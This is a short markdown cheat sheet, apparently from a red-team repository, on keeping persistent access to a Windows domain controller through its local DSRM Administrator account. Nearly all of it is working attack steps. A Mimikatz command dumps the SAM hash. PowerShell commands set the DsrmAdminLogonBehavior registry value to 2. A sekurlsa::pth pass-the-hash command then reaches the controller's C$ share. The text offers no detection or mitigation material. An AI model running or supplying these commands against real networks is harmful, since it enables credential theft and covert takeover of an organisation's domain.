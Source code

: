 ### **OVERVIEW**
Domain Controllers (DC) have a local Administrator account that can be leveraged for persistence. By gaining administrative privileges on a DC and dumping the local Administrator hash, you can modify the registry to enable remote access to this account.

1. Use Mimikatz to dump the hash of the local Administrator account on the DC.  
	`Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'`

2. Modify Registry to Enable Remote Access
	Check if the `DsrmAdminLogonBehavior` registry key exists and has the correct value. If not, create or modify it. 
3. Check if the key exists and get its value  
	`Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior`
4. Create the key with value "2" if it doesn't exist  
	`New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior -Value 2 -PropertyType DWORD`
5. Change the value to "2" if it exists but is set incorrectly  
	`Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\LSA" -Name DsrmAdminLogonBehavior -Value 2`
6. Pass-the-Hash (PTH) to Gain Access
	Use the dumped hash to authenticate and access the DC remotely. Note that the "domain" used is the name of the DC machine.
7. Use sekurlsa::pth to pass the hash   
	`sekurlsa::pth /domain:[DC_MACHINE_NAME] /user:[USERNAME] /ntlm:[HASH] /run:[CMD]`
8. Example: List the content of C$ share   
	`ls \\[DC_MACHINE_NAME]\C$`